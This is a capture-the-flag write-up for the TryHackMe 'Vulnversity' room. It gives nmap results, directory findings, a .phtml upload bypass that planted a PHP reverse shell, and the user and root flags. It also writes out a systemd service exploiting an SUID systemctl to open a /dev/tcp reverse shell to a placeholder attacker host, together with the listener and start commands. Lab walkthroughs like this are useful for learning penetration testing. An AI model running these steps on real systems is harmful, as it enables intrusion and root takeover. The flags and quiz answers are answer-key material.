 # Vulnversity

roomlink:
https://tryhackme.com/room/vulnversity

## task 2 
 Q. Scan the box; how many ports are open?
 A. 6

 Q. What version of the squid proxy is running on the machine?
 A. 4.10

 Q. How many ports will Nmap scan if the flag -p-400 was used?
 A. 400

 Q. What is the most likely operating system this machine is running?
 A. Ubuntu

 Q. What port is the web server running on?
 A. 3333

 Q. What is the flag for enabling verbose mode using Nmap?
 A. -v


$ nmap -sV 10.201.30.38                

	PORT     STATE SERVICE     VERSION
	21/tcp   open  ftp         vsftpd 3.0.5
	22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
	139/tcp  open  netbios-ssn Samba smbd 4
	445/tcp  open  netbios-ssn Samba smbd 4
	3128/tcp open  squid-http?
	3333/tcp open  http        Apache httpd 2.4.41 ((Ubuntu))
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

found hidden directories:
images                  [Status: 200, Size: 7206, Words: 356, Lines: 48, Duration: 270ms]
css                     [Status: 200, Size: 4090, Words: 208, Lines: 32, Duration: 242ms]
js                      [Status: 200, Size: 4638, Words: 278, Lines: 34, Duration: 249ms]
fonts                   [Status: 200, Size: 1538, Words: 100, Lines: 20, Duration: 272ms]
internal                [Status: 200, Size: 525, Words: 62, Lines: 27, Duration: 280ms]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 320ms]

/internal/ has file uploading vulnerability.

get reverse shell from :
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


all php exetentions: 
.php
.php3
.php4
.php5
.phtml

tried all extentions with burp intruder.
only .phtml successfully uploaded.

got the php reverseshell.


found the user flag: 
/home/bill/user.txt:
8bd7992fbe8a6ad22a63361004cfcedb


in systemctl suid bit was set.
so what is done is 

SUID bit on /bin/systemctl is very very vulnerable.
-
cat << EOF > /tmp/rootme.service
[Unit]
Description=root me brooo

[Service]
type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/hacker-ip/hacker-port 0>&1'

[Install]
Wantedby=multi-user.target


before linking and starting the service open the port on listening mode on local machine
$ nc -lnvp hacker-port

on remote machine start the service:
$ /bin/systemctl link /tmp/rootme.service
$ /bin/systemctl start rootme.service


wallah connected to server as root!!!!!

got the flag:
cat /root/root.txt
a58ff8579f0a9270368d33a9966c7fd5


